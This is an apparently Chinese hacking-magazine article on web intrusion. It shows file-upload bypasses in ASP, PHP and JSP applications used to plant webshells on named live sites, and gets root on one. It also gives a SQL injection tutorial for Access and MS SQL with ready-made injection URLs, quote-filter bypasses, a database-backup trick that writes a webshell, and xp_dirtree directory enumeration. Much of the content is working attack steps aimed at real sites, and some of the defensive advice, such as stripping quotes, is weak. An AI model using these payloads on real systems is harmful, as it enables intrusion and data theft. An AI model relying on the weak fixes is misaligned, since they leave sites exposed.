现在可以根据上面的代码设置详细的程序参数了。在 Action 中输入：

```
http://www.zrl*3.com/upload.asp?action=UpFile
```

在 UpPath 第一个文本框中输入 up_name，第二个输入上传后的 Shell 名称 test.asp。File 第一个文本框中输入 File_name1；详细参数和提交情况如图12、图13所示。


> http://www.zrl*3.com/upload.asp?action=UpFile 参数 Action=UpFile 一定不能丢，如图13所示。后门所在路径为 upload/other/test.asp。



后门介绍：这里用的是黑血汉个人美化版后门！此后门功能非常多，可算是经典之作。它具有浏览、上传、下载、复制、删除、执行 DOS 命令和执行 SQL 命令、查看系统配置及 Nofso 的功能，而且就算你得到了后门的源代码也看不到明文的密码。

## PHP上传漏洞篇

测试程序 Neatpic PHP 目录直读版 1.2.3（打开了图片上传功能）。当 PHP 程序有指定 Path 时，在 Path 文件后面加入 `%00` 可以上传任意文件。

在百度里搜索“Neatpic PHP目录直读版1.2.3”，你会找到很多装有此程序的站点。由于是 PHP 上传漏洞，目前还没有公布技术细节，这里就详细给大家介绍一下。

第一步，用 WsockExpert 抓取上传图片操作的数据包，并做相应修改：

```
POST /index.php?action=upload HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, ...
Referer: http://mycol.5l*xj.com/index.php?path=...
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=...
```

```
（左栏大段抓包请求与PHP上传脚本代码，包含 HTTP 头、Content-Disposition、Content-Type、PHP 文件处理逻辑与表单代码）
```

第二步，修改 Cookie。上面代码中有详细的修改方法，为了让大家能应变不同的系统，详细解释一下（请参考上面的代码或者你自己抓取的 Cookie 值）：在“.”后面加上“/test.php%00”，这是12个字符，所以原来的982要改成994，把 Cmd.php 改成 Cmd.gif，再保存修改后的 Cookie 为 Test.txt。

第三步，用 NC 提交。使用如下命令提交数据：

```
nc -v www.mycol.51*j.com 80 <test.txt
```

在浏览器中输入 `http://mycol.51*j.com/test.php`，我们带上传功能的 Shell 就出来了！

后门介绍：因为用 NC 上传时为保证成功率，所以自己编了一个仅能实现上传功能的短小木马，利用它你可以把安全天使 Angle 写的一个经典 PHP 木马——Phpspy 上传上去！

PHP 的上传漏洞大体利用方法和过程都是这样的，由于时间有限，没有多测试其它系统，有兴趣的朋友可以多测试一下。

## JSP上传漏洞篇

某天无意中进了一个论坛，是用 JSP 语言编写的，现在的 JSP 论坛一般都用在大型站点上，普通人使用还是比较少的，于是想搞搞它。注册用户后，在“发表新文章”和“修改个人资料”里均没有上传功能的选项，看来防范是比较严格的。找了半天才发现回复帖子的时侯，有上传附件功能！不知道这是不是一个突破口。于是网上找了一个 JSP 的 Shell（JSP网页木马3.0）直接上传后出现如图14所示的错误。



如果把“Content-Type: text/plain”改成“Content-Type: image/jpeg”能不能上传呢？测试一下再说。

用 WsockExpert 抓包，把数据存到记事本上，然后把“text/plain”改成“image/jpeg”存盘退出，用 NC 提交：

```
nc -v www.***.com 80 <jsp_UpFile.txt
```

在浏览器里输入：

```
http://www.***.com/bbs/upload/image/43681096291342664.jsp?cmd=id
```

返回如图15所示。



哈哈！很神奇的事：ROOT权限！让我想起了范伟说的一句话：“大哥，甭说了，啥也不用说了。”该怎么继续做大家自己看着办吧！

后门介绍：这里用的是 JSP 网页木马 3.0，带一个参数 CMD，如上图所示在“=”号后面加上要执行的命令就可以正常使用了！

目前，存在以上漏洞的系统还很多，本文只是选取了几个比较典型的系统给大家做演示，相信熟悉了这样的入侵方式，在入侵其它系统的时候大家一定会顺手很多！希望本文能给大家提供一定帮助，谢谢观赏！

| 适合读者 | 脚本爱好者、网络管理员 |
|---|---|
| 前置知识 | 基础ASP脚本阅读能力 |
| 难度等级 | 低 |

**刘流** 对于 ASP 脚本安全，造成漏洞的主要原因有两大点。第一是程序员在脚本代码的编写中对特殊字符的过滤不严，第二是数据库的安全设置没有到位。时下网上流行的注入漏洞就是程序员没有对脚本进行严格的过滤而造成的对数据库的攻击。无数网络管理员在这方面吃尽了苦头，却苦于找不到全面、精辟的防范方法来抵御这样的攻击。究其原因，还是因为管理员本身并不了解注入攻击的实质，换句话说，就是不熟悉这种攻击的具体实现方式，因而要防护这样的攻击也就无从说起。下面将以实际利用的方式为大家具体讲解 SQL 注入的攻击方式和针对数据库的攻击，同时针对每种攻击方式都提出了防护方法，希望大家能通过对攻击方法的了解而掌握防范这种攻击方法的窍门。



## 打破SQL Injection枷锁

SQL 注入漏洞是属于程序编写人员对脚本程序没有完全过滤好参数而导致的一种漏洞。我们通过注入漏洞，最基本可以获取数据库表中的一些信息，可以修改数据库表中的内容，更深层次甚至可能拿到系统权限。而针对数据库的攻击前提就在于注入漏洞，一般都是从注入漏洞着手开始的。下面我们就从最基础的注入知识开始，逐步深入讲解其攻击手法。

我们要开始深入地讲解各种注入方法和防护方法了。在开始讲解前，先介绍一下怎么识别是否存在 SQL 注入漏洞。对于数字型参数，比如 `www.***.com/list.asp?id=1` 这样的 URL，在 1 后加入 `and 1=1` 和 `and 1=2`，查看返回结果是否相同，不同则说明有可能存在漏洞。如图1、图2所示，从图中可看出返回页面是完全不同的，由此可基本确定存在注入漏洞。

### SQL注入理论基础

SQL 是一种功能强大的语言，熟练掌握并灵活应用 SQL 语言是初学者和数据库应用开发人员的必备基本功。这样的基本素质很多人都具备，而且学得相当不错，但在安全性方面就往往被程序开发人员所忽略了，进一步导致黑客利用脚本漏洞，攻击 Web 主机，入侵数据库。我们先看看下面的 SQL 语句，并由此引出全文。

```sql
(A) select * from users where id=1--
(B) select * from users where id=1 and username='something'--
(C) select * from users where id=1 and 1=(select min(id) from users)--
```

对于 A、B 这种情况，一般数据库开发人员都能理解，并经常使用；但 C 这种情况，可能使用的人不太多，也就是条件后面是一个集合判断，也属于条件。这种情况被黑客很好地利用了，通过这种手段，可以获取数据库表中的信息。最直接的表现形式是这样的：

```sql
select * from users where id=1 and 'adminname'=(select username from [admin] where id=1)--
```

上面的语句是直接查询 Admin 表中 ID 为 1 的 UserName 字段值是不是 `adminname`，也是一种很通用的注入方式，这里我们只是用来讲解一下注入的基础知识。





对于字符型参数，比如 `www.***.com/name.asp?id=text`，在其后加入单引号，看是否提示出错，再通过出错信息就可判断是否存在漏洞。还有一些比较特殊的判断方法，这些就靠大家自己去总结经验了。

从防范方面来看，脚本提交的参数一般都是数字和字符型。对这两种类型进行判断和过滤，那么就从根本上防止了 SQL 注入的存在。

### 数字脚本参数的攻击和防护

我们以下面的一个 URL 为例：`http://www.something.com/view.asp?id=1`，在 View.asp 中，原代码如下：

```asp
sqlstr = "select * from users where id='"&request("id")
rs.open sqlstr,conn,1,1
```

我们可以发现程序员是直接用 `Request("id")` 获取 ID 参数值，没有对参数 ID 作任何过滤，导致产生了一个注入漏洞，而参数正好是数字型的。

### 1．攻击方法

我们在 URL 中提交：

```
http://www.something.com/view.asp?id=1' and 'admin'=(select username from [admin] where id=1)--
```

这里我们提交上面 URL 的前提是知道数据库中的表结构，用来猜解表中记录的一种方式。放入脚本代码中，大家就会相当清楚地看到这是怎么回事了：

```sql
select * from users where id=1 and 'admin'=(select username from [admin] where id=1)--
```

脚本执行了上面的 SQL 语句后，结果要看我们的条件是否为真。为真的情况下得到的显示结果是和正常显示的情况相同的，通过 SQL 中提供的函数，如 MID（Access数据库）、Substring（MS SQL数据库），我们可以取字段的第一个字符，也可以取前几个字符进行比较。猜解字段值可以提交这样的 URL：`a'=(select mid(username,1,1) from [admin] where id=1)`，这就是猜测 id=1 的 UserName 字段中字段值第一个字符是不是“a”。通过改变语句，我们就可以取得数据库中任意字段的值了。

不过这种猜解比较费时，因而才有了自动猜解的工具，比如臭鸡蛋写的 CSC 和小竹写的 NBSI 注入工具，但我们今天讲的是原理，光会用工具有什么用？真正的知识都没学到位，这就是大侠和菜鸟之间的区别。

### 2．防范方法

对于这类数字型参数注入攻击的防护很简单，我们只要在参数提交到 SQL 语句执行前，进行判断、过滤参数就可以解决了。

上面的例子是允许用户可以自动修改 ID 参数值而造成漏洞的。在数字型参数中，我们应该只允许输入数字，非数字型参数就提示出错。具体来讲，上例中我们限定只允许提交的参数是数字型就可以防止注入攻击了。只让输入数字，你还有办法注入吗？简单的代码如下：

```asp
If Not isNumeric(request("id")) then
  response.write "提交的参数是非法参数!!!"
  response.end
end if

'上面是过滤语句，如果是非数字型，提示错误信息，并终止脚本的运行。
sqlstr = "select * from users where id="&request("id")
rs.open sqlstr,conn,1,1
```

对于整套脚本程序，我们最好写一个函数专门用于检测参数是否合法，以方便程序代码的利用率，也可以精简代码。

好了，上面讲到的是针对数字型参数的攻击和防护。下面我们来看字符型参数的攻击和防护。

### 字符脚本参数的攻击和防护

同样，我们用 URL 为例：`http://www.something.com/view.asp?name=coon`，来看 View.asp 中的源代码：

```asp
sqlstr = "select * from users where username='"&request("name")&"'"
rs.open sqlstr,conn,1,1
```

我们可以看到代码没有对参数作任何过滤，直接用 `Request("name")` 来接收参数。对于这种类型的参数，通过 URL 来判断是否存在注入漏洞的方法很简单，直接在参数后面加上一个单引号就可以了，如果没有过滤，SQL 语句会出错。来看加入单引号后提交到数据库中的 SQL 语句：

```sql
select * from users where username='coon''
```

后面多了一个单引号，这种格式 SQL 是不能识别的，因为多了一个单引号，在字符串结束后还存在单引号，系统就出错了。如果提交的是 `coon' and ''='`，由于匹配了单引号，SQL 语句就正确了，而通过这样的方法查询也就可以实现了。

下面我们认真分析一下，注入攻击就是做一个填空游戏“'____'”，在两个单引号中间是空白，在空白中我们填上字符，务必要注意要让所有的单引号成双。可能大家都会想到再加入两个单引号，让它变成“'' ''”这样就可以。对，我们在中间加入 N 对单引号就能扩展很大的语句查询能力了，由此注入也变得更加简单。下面，我们来进行攻击演示和防护。

### 1．攻击方法

```
http://www.something.com/view.asp?name=coon' and [adminname]=(select username from [admin] where id=1) and '='
```

这样构造的 URL 提交到 SQL 语句中，就和上面数字型攻击方法是一样的了。改变我们构造的 SQL 语句，我们可以得到我们想要的表记录。注意，在 SQL 语句中，大家看到“admin”表被“[]”括起来了，那是因为如果脚本连接的是 Access 数据库，其中“admin、user”等字符串都是 Access 的保留值，如果我们不用“[]”把它们括起来，就表示这是数据库的保留值，从而使我们构造的语句不能正常运行了。但是 MS SQL 就不会存在这个问题，加不加“[]”都不会出错的。

### 2．防护方法

对于字符型参数，最重要的符号就是单引号。上面的填空游戏的条件都是填写单引号，让我们插入 SQL 语句。如果代码不让输入单引号，那么攻击者是无法完成攻击的。因为没有单引号的话，系统会把两个单引号之间的值当成字符串来处理的……我们来过滤单引号，让注入漏洞去见鬼吧！代码如下：

```asp
name=request("name")
name = Replace(name,"'","")
'把单引号替换成空。
sqlstr = "select * from users where username='"&name&"'"
rs.open sqlstr,conn,1,1
```

这样我们就过滤了参数中的单引号了，所有的单引号都会变成空。比如提交 `coon' and '='`，经过我们过滤后就变成了 `coon and =`，放入 SQL 语句中得到的是：

```sql
select * from users where username='coon and ='
```

呵呵，这个语句还有效吗？

### 针对过滤单引号的攻击和防护

为什么过滤了单引号我们还可以进行攻击呢？这只是一部分程序员没有正确理解注入漏洞，也没有去认真分析的缘故……对于数字型参数（注意，只对数字型参数有用），如果过滤了单引号，我们可以绕过单引号继续注入。当然，对于字符型参数，过滤了单引号，那就没办法了。

### 1．攻击方法

下面我们来看对数字型参数进行单引号过滤后，我们的攻击手法和防护方法。我们还是以上面的 URL 来作为例子：`http://www.something.com/view.asp?id=1--`，在 View.asp 中，源代码如下：

```asp
id=request("id")
id = Replace(id,"'","")
sqlstr = "select * from users where id="&id
rs.open sqlstr,conn,1,1
```

代码中过滤了单引号，我们就不能在 URL 中输入单引号了。比如：

```
http://www.something.com/view.asp?id=1 and 'abc'=(select username from admin where id=1)
```

这样提交进去是会出错的，因为过滤了单引号，`'abc'` 变成了 `abc`，过滤后的 abc 既不是数字型，也不是字符型，系统会把它当成字段名、函数之类的来处理……那究竟如何攻击呢？

### 方法1：用Char函数绕过单引号

```
view.asp?id=1 and char(97)+char(98)+char(99)=(select username from admin where id=1)
```

Char 函数直接把字符的 ASCII 码转成了字符。例子中把 abc 分开得到各自 ASCII 码，再用 Char 函数相加，`char(97)+char(98)+char(99)` 得到的就是字符串 `abc`，整个参数中也没有任何单引号。

> **Char函数介绍：**

- Char 函数将整型 ASCII 代码转换为字符串。
- 语法：`Char(integer_expression)`
- 参数范围：0~255，超出范围返回 NULL。
- 返回类型：`char(1)`
- 可用于将控制字符插入字符串。

### 方法2：灵活运用数据库中的可利用字段值

如果我们知道在 Users 表中 `xname` 字段的值是 abc，并且相应的 ID 为 1，那么我们可以这样提交：

```
view.asp?id=1 and xname=(select username from [admin] where id=1)
```

这样也可以绕过单引号。我经常帮某官方论坛的站点“检查”安全性，曾经就用过这种方法。先自己注册一个想要使用的字符串为论坛昵称，注册成功后这个字符串就放到了数据库中，我们就可以通过表中本身的字段值来绕过单引号了……

```asp
view.asp?id=1 and 0x610062006300=(select username from [admin] where id=1)
```

得到的效果和下面的 URL 是一样的。

```asp
view.asp?id=1 and 'abc'=(select username from [admin] where id=1)
```

不同的是我们用前者绕过了单引号。我们用图 3 来证明这一点：

图中字符串“sa”对应的 SQL 编码为 0x73006100，我们用 `select system_user` 返回了当前连接的账号名，正常返回内容，证明当前连接的账号是 SA……

在注入的过程中，我们常常会遇到千奇百怪的事，往往 SQL 函数可以帮我们解决很多事，所以熟悉常用的函数和使用方法是非常重要的……

> 如何判断对方脚本程序对数字型参数进行了单引号过滤？

很简单，如果只是过滤了单引号，我们这样提交：`view.asp?id=1 and '1'='1`……再多提交几个带单引号的参数就能判断出来。

上面这部分内容是对注入基本知识和注入理论方法的基本研究……下面，我们将要介绍数据库方面的攻击和防护，重点在于 Access、MS SQL 数据库。

## Access数据库的攻击和防护

### 1. 攻击Access数据库

对于 SQL 注入而言，我们可以获取数据库中记录的数据，但是要取得整个数据库的所有内容……所以直接下载整个数据库就能免去 SQL 注入烦琐的工作。

如果我们知道数据库路径，那么就可以直接下载了。关键是如何获得数据库的路径呢？在 ASP 脚本中……可用到 `Server.MapPath` 这个方法，代码如下：

```asp
db="data\db.mdb"
response.write Server.MapPath(db)
```

前面是相对路径，后面用 `Server.MapPath` 得到绝对路径……在 IE 中我们采用非法路径的方式去调用这样的数据库文件，比如：

```text
http://www.something.com/list.asp?id=1
```

我们提交这样的 URL：

```text
http://www.something.com/inc/conn.asp
```

那么 `Server.MapPath` 这个方法执行的时候就会出错，从而暴露出绝对路径……

#### 2. 防护方法

在代码中加入 `on error resume next` 就可以解决问题，这样当数据库访问出错就不会显示出任何东西来了……

是不存在任何保密问题的，直接下载就可以了。网上有种说法，说把数据库后缀改成 ASP 或者 ASA 就能防止下载了，实际上这是错误的，我们依然可以下载，用 FlashGet 下载就可以了。最好的方法还是在 Access 库中加入 ASP 错误代码，这样才能防止被下载。

## MS SQL数据库的攻击和防范

对于 MS SQL 数据库，攻击的方法就比较多了。最常用的就是备份数据库到 Web 目录中，然后再下载。通过此备份数据库的原理，我们还可以拿到 WebShell。基于以上几点，针对 MS SQL 数据库的攻击对网管来说简直就是恶梦。不过，请记住一点，这些攻击都是通过注入漏洞再利用 MS SQL 扩展存储过程所造成的，注入漏洞在于脚本防护，而扩展存储就在于管理员给数据库设置的相应权限了。

### 1、攻击方法

`http://www.something.com/view.asp?id=1`，这是一个存在注入漏洞的 URL，并且是 MS SQL 数据库，那么我们提交以下 URL：

```text
http://www.something.com/view.asp?id=1; backup database model to disk='c:\a.asp'--
```

这样就能把整个数据库备份到 C 盘根目录下，生成一个“a.asp”文件。试想一下，如果我们在数据库中加入 ASP 脚本代码，那么生成的“a.asp”文件就是一个真正的脚本文件了。同时，如果我们备份到 Web 目录下，运行这个文件，不就执行了我们插入数据库的脚本代码了吗？WebShell 就是这么来的。

### 2、防护方法

攻击是由两种原因加在一起造成的，注入漏洞加上数据库权限不合理设置，所以我们的防护方法也要从这两方面着手。一方面对脚本参数进行过滤，防止注入漏洞，同时给数据库最小的权限，对每个表进行权限分配。很多站点给数据库设置“db_owner”权限而没有细分权限，攻击就这样产生了。

## SQL盲猜过程的利用

作为基础内容，本来前文应该介绍一下 MS SQL 盲注的方法。其实原理就是通过 SQL 语句执行出错而得到数据库中的信息，比如把不同类型的数据进行比较而得到数据的值，例如提交如下的 URL：

```asp
view.asp?id=1 and 1=(select system_user)
```

扩展存储过程的利用，这些扩展方便了程序员代码的编写和功能的实现，当然也为黑客们提供了可入侵的大门。可以说 MS SQL 灵活的扩展就像一个小型的 Shell，在入侵中非常重要。本文后面将重点讲解这方面的知识。首先来温习一下 MS SQL 的一些重要系统函数：

- `@@SERVERNAME`：返回运行 Microsoft SQL Server 的本地服务器名称。
- `@@VERSION`：返回 Microsoft SQL Server 当前安装的日期、版本和处理器类型。
- `SYSTEM_USER`：返回当前连接的账号名称。
- `COL_NAME`：返回数据库列的名称。
- `DB_NAME`：返回数据库名。
- `IS_MEMBER`：表明当前用户是否为指定 Windows NT 组或 SQL Server 角色成员。
- `IS_SRVROLEMEMBER`：指明当前用户登录是否为指定服务器角色成员。

上面是基本的系统函数，我们可以在 URL 中这样利用它：

```sql
and 1=(select IS_SRVROLEMEMBER('SYSADMIN'))
```

上面的 URL 是查看当前账号是不是“sysadmin”权限的。如果要查询上面的值，我们通过注入，让不同类型的数据进行比较就会得到结果。比如：

```asp
view.asp?id=1 and 1=(select @@SERVERNAME)
```

这样就爆出了数据库主机名称。另外，SQL 的很多重要的系统表也是注入中最关键的东西：`Syscolumns`、`Sysdatabases`、`Syslogins` 等。若站点以 Sysadmin 权限连接账户并存在注入漏洞，就可能通过系统表拿到系统连接账户并进一步被利用。

## 通过注入漏洞获取Web路径

讨论过读注册表拿 Web 路径的方法后，最后通过实验和研究，发现该方法只能拿到系统默认 Web 路径，如果默认路径被改过的话就无法取得。后来提出了新思路，通过 `XP_dirtree` 这个扩展存储过程去获取绝对路径。该过程权限要求并不高，在具备注入条件时可被利用。

一般服务器的配置都给数据库赋予了 `DB_OWNER` 权限，这就使我们能够通过此扩展读到服务器路径了，而且成功率在 90% 以上。

`XP_dirtree` 这个过程能显示硬盘目录结构。我们用上面这两个扩展读出来的是一个集合，必须把它保存到一个临时表（这个表需要自己建）中去，然后我们再读出临时表的所有记录（采用暴库的方法，就可以一条一条地暴出来）。MS SQL 提供了一条语句，可以把返回的集合保存到一个表中去：

```sql
insert tmptable exec master.dbo.xp_dirtree 'c:\',1,1
```

在注入的时候，我们就用：

```asp
view.asp?id=1;insert tmptable exec master.dbo.xp_dirtree 'c:\',1,1--
```

这条语句把 C 盘根目录下 1 级目录和文件列表插入到 `tmptable` 表中去。当然，前提是要建立这个 `tmptable` 表。建表是非常关键的，表的字段数量、字段类型都要求和 `xp_dirtree` 返回的字段数量、类型相同。我们先看 `xp_dirtree` 返回的集合中字段的属性吧，在分析器中执行 `XP_dirtree`，返回的集合中含有三个字段 `Subdirectory`、`Depth`、`File`。

其中 `Subdirectory` 字段是字符型，`Depth` 字段是整型字段，`File` 也是整型。`Subdirectory` 用来保存目录名和文件名，`Depth` 是表示目录级数，当参数为 1，那么 `Depth` 的显示结果就一定是 1；`File` 有 0 和 1 两个值，值为 1 表示是文件，值为 0 就是目录。

了解了结构，我们现在就来建表。

```sql
create table tmptable(dirfile varchar(100), depth int, isfile int)
```

这样就把目录和文件写到 `tmptable` 中去了。现在我们就来想办法把 `tmptable` 中所有的记录暴出来吧！

用两个 `select` 相结合的语句，可以从第一条记录取出最后一条记录。先取出临时表中的记录总数：

```sql
select count(*) from tmptable
```

取第一条的语句：

```sql
select top 1 dirfile from (select top 10 dirfile from tmptable order by dirfile) order by dirfile desc
```

取第六条的语句：

```sql
select top 1 dirfile from (select top 6 dirfile from tmptable order by dirfile) order by dirfile desc
```

这样就可以取完所有表中的记录。如果要把目录和文件分开，那么我们只要在语句中加 `isfile=0`、`isfile=1` 就可以实现了。当然，最后我们还需要删除我们建的临时表。

```sql
drop table tmptable
```

所有的工作就这样结束了，下面我们看看在 URL 中实际操作是如何进行的。

```asp
view.asp?id=1; create table tmptable(paths varchar(100), depth int, isfile int)--
```

插入数据到临时表：

```asp
view.asp?id=1;insert tmptable exec master.dbo.xp_dirtree 'c:\',1,1--
```

暴出临时表中的记录。先暴出记录总数：

```asp
view.asp?id=1 and (SELECT CAST(COUNT(*) AS varchar(200))+char(100) FROM tmptable)>1--
```

你在 IE 中看到的出错信息应该是“记录总数加上一个 d 字符”。我们通过把记录总数变成字符，再与一个字符相加，然后与数字比较就会出错；如果仅是一个字符型的数字和数字比较，系统会自动把字符型数字转换成数字再比较。这里假设暴出的是 10d，那么记录总数就是 10。再来暴第一条记录：

```asp
view.asp?id=1 and (select top 1 dirfile from (select top 10 dirfile from tmptable order by dirfile) order by dirfile desc)>1--
```

暴第 N 条记录：

```asp
view.asp?id=1 and (select top 1 dirfile from (select top N dirfile from tmptable order by dirfile) order by dirfile desc)>1--
```

删除数据库中的临时表：

```asp
view.asp?id=1;drop table tmptable--
```

通过上面的操作，我们就可以拿到 C 盘根目录下一级目录名和文件名。如果改变 `XP_dirtree` 中 `Path` 参数的值，我们就可以像 DOS 中用 `Dir` 命令一样查看硬盘目录结构了，当然也就可以找到 Web 的绝对路径了。有了绝对路径，拿到 WebShell 还很难吗？

> 【结束语】注入攻击就像在玩游戏，灵活多变。虽然可能每个人都有自己不同的注入风格，但最终还是归结到 SQL 函数的灵活使用上。本文层次上由浅到深，目的是带着新手朋友们入门。希望大家能掌握这种时下最流行的入侵方式。

